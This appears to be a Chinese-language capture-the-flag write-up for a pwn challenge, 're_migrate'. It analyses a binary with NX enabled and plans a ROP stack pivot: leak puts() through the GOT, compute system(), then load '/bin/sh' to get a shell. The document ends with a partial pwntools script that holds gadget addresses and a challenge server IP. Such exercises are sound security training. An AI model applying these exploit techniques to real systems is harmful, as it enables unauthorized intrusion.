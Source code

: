 ## 02 - re_migrate

### 1 漏洞分析
查看安全限制：
![image.png](./assets/1654190253169-7cfbe87f-52e7-4551-a381-0dc83cb5461b.png)
使用 gdb 跟踪一遍，得到如下的栈和调用结构：
![image.png](./assets/1654191772764-8f6d38d4-9d7e-4187-8900-1c6f4b872a19.png)
其中各个函数用其首字母标明；红色字体表示了对应字段的安全风险。

可以看到，NX 保护是开启的，因此注入 shellcode 是做不了的。我们考虑 ROP。注意到有调用库：
![image.png](./assets/1654191903860-62d6185a-35c5-4cff-a308-aa69a5d10297.png)
因此，我们可以用 ROP 通过 `puts_plt(GOT(puts))` 获取 `puts()` 的实际地址，从而算出库的偏移，进一步算出 `system()` 的实际地址；然后再从`one_kick()`跑一次，将 `'/bin/sh'` 加载到 `rdi` 中；然后调用 `ret` 时会前往 `system()`，即成功运行 shell。


### 2 利用分析过程
起初我想要找办法获取栈偏移从而把`one_punch`的`saved rbp`改成`treasure[]`的位置，然后将`ret addr`改到一个`leave; ret;`的 gadget 从而实现栈迁移，但是没找到怎么获取栈偏移……<br />后来想到，可以考虑直接通过`pop`把栈指针弄到`treasure[]`去，即需要`pop`8 次然后`ret`。找找 gadget：
![image.png](./assets/1654195608478-255d3714-1c52-453b-a01e-6d523580bcdb.png)
发现没有`pop`那么多次的……但是注意到我们可以先`pop`到`one[1]`那里去，因为`one[1]`的值仍保留为用户输入！所以先`pop`5 次，`0x40140b`这个可以用！<br />然后我们将`one[1]`的值改为一个`pop`2 次的 gadget，比如`0x401410`，这样就可以来到我们大控制的`treasure`啦：
![image.png](./assets/1654196650897-9cc235bc-016e-45af-b2de-fcee132585cf.png)
我们在进入`really_fight()`构造这样的`treasure`，这样我们就可以通过 `puts_plt(GOT(puts))` 获取 `puts()` 的实际地址，然后算出`system()`的地址，再一次来到`really_fight()`中：
![image.png](./assets/1654196894079-99a4e582-faf9-45ec-aad8-8be0b763eb68.png)

再一次进入到`really_fight()`中后，我们构造`treasure`，然后在后续的调用中用同样的方式将栈指针移到`treasure`，通过 garget 将 `'/bin/sh'` 加载到 `rdi` 中；然后调用 `ret` 时会前往 `system()`，即成功运行 shell：
![image.png](./assets/1654197107694-915f5ff7-6966-4745-94f3-afe84261ba4f.png)

定位上述需要的参数：
![image.png](./assets/1654197392015-a0efdaea-d31e-4bc1-bd4e-e901ce1367bf.png)
![image.png](./assets/1654198076949-d28fec59-4de6-4936-a7b5-08cc8233fb35.png)


### 3 结果
根据上述分析，我们写出了如下代码（唯一的区别是，在第一趟的`treasure`前面新增一个 ret gadget 从而满足栈对齐的要求）：
```python
from pwn import *

context.log_level = 'DEBUG'

conn = remote("116.62.228.23", 10002)

conn.recvuntil("StudentID:\n")
conn.sendline("3190105871")

pop_5_gadget = 0x000000000040140b
pop_2_gadget = 0x0000000000401410
p_2_g_bytes = b'4199440'
leave_ret = 0x000000000040120d

e = ELF('./02_re_migrate')
puts_plt = e.symbols['puts']
puts_got = e.got['puts']
r_f = e.symbols['really_fight']
rdi_gadget = 0x401413
ret_gadget = 0x40101a

```